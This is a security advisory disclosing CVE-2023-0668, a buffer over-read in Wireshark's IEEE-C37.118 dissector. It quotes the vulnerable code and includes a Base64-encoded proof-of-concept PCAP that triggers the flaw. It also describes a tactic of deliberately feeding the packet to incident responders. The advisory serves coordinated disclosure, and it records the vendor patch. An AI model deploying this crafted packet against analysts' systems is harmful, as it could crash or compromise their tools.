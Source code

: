 ```yaml
---
layout: default
title: CVE-2023-0668
categories: nav
showinnav: false
---
```



# CVE-2023-0668: Wireshark IEEE-C37.118 parsing buffer overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0668] has been assigned to this issue.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [IEEE-C37.118](https://wiki.wireshark.org/IEEE-C37.118.md) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0668] appears to be an instance of [CWE-125].

# Technical Details

This crash is caused by an out of bounds read from the global buffer `conf_phasor_type`

** Note the below array contains 17 items

`wireshark/epan/dissectors/packet-synphasor.c`
```
 363 static const value_string conf_phasor_type[] = {               
 364         { 0, "Voltage, Zero sequence"           },
 365         { 1, "Voltage, Positive sequence"       },
 366         { 2, "Voltage, Negative sequence"       },
 367         { 3, "Voltage, Reserved"                },                
 368         { 4, "Voltage, Phase A"                 },                
 369         { 5, "Voltage, Phase B"                 },
 370         { 6, "Voltage, Phase C"                 },
 371         { 7, "Voltage, Reserved"                },
 372         { 8, "Current, Zero sequence"           },
 373         { 9, "Current, Positive sequence"       },
 374         { 10, "Current, Negative sequence"      },
 375         { 11, "Current, Reserved"               },
 376         { 12, "Current, Phase A"                },
 377         { 13, "Current, Phase B"                },
 378         { 14, "Current, Phase C"                },
 379         { 15, "Current, Reserved"               },
 380         {  0, NULL                              }
 381 };
```


In `dissect_PHSCALE` (which can be found in the top frame of the stack trace.) on line 1214, the `tvb_get_guint8` function is used to retrieve 1 byte from the synphasor packet payload, and then uses that value as an index into the `conf_phasor_type` array without performing any bounds checks.

`wireshark/epan/dissectors/packet-synphasor.c`

```
1190 static gint dissect_PHSCALE(tvbuff_t *tvb, proto_tree *tree, gint offset, gint cnt)
1191 {       
1192         proto_tree *temp_tree;
1193         gint i;
1194 
1195         if (0 == cnt) {
1196                 return offset;
1197         }
1198 
1199         temp_tree = proto_tree_add_subtree_format(tree, tvb, offset, 12 * cnt, ett_conf_phconv, NULL,
1200                                                   "Phasor scaling and data flags (%u)", cnt);
1201         
1202         for (i = 0; i < cnt; i++) {
1203                 proto_tree *single_phasor_scaling_and_flags_tree;
1204                 proto_tree *phasor_flag1_tree;
1205                 proto_tree *phasor_flag2_tree;
1206                 proto_tree *data_flag_tree;
1207 
1208                 single_phasor_scaling_and_flags_tree = proto_tree_add_subtree_format(temp_tree, tvb, offset, 12,
1209                                                                                      ett_conf_phlist, NULL,
1210                                                                                      "Phasor #%u", i + 1);
1211         
1212                 data_flag_tree = proto_tree_add_subtree_format(single_phasor_scaling_and_flags_tree, tvb, offset, 4,
1213                                                                ett_conf_phflags, NULL, "Phasor Data flags: %s",
1214                                                                conf_phasor_type[tvb_get_guint8(tvb, offset + 2)].strptr);
1215         
1216                 /* first and second bytes - phasor modification flags*/
1217                 phasor_flag1_tree = proto_tree_add_subtree_format(data_flag_tree, tvb, offset, 2, ett_conf_phmod_flags,
1218                                                                   NULL, "Modification Flags: 0x%04x",
1219                                                                   tvb_get_ntohs(tvb, offset));
1220         
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

```
1MOyoQIABAAAAAAAAAAAAP9/AAD8AAAAAAAAAAAAAAAdAQAAHQEAAAAOAAh1ZHAuc
G9ydAAgAAQAABJpAAAAAKpZAKpZAAIAAADxQgAUAAAAAQAAAAIALAAAAAAAAAAAAA
9CQP8vAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAgAsAAAAAAAAAAA
AD0JA/y8AAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ABEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC4rAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAA
BRQkgUAAD3EwD/AAAAAAAAAAAAIQAAABERAQD///8AAA==
```
<br/>
# Attacker Value

By providing this poisoned IEEE C37.118 packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19087].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19087] to address.
* 2023-05-21 (Sun): Patch merged to the [release-3.6](https://gitlab.com/wireshark/wireshark/-/merge_requests/10714) and [release-4.0](https://gitlab.com/wireshark/wireshark/-/merge_requests/10713) branches of Wireshark.
* 2023-05-22 (Mon): Issue [19087] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0668] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-05 (Mon): Public disclosure of [CVE-2023-0668]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0668]: https://takeonme.org/cves/CVE-2023-0668.html
[CWE-125]: https://cwe.mitre.org/data/definitions/125.html
[meeting]: https://takeonme.org/meetings.html
[19087]: https://gitlab.com/wireshark/wireshark/-/issues/19087
[Wireshark]: https://www.wireshark.org/download.html
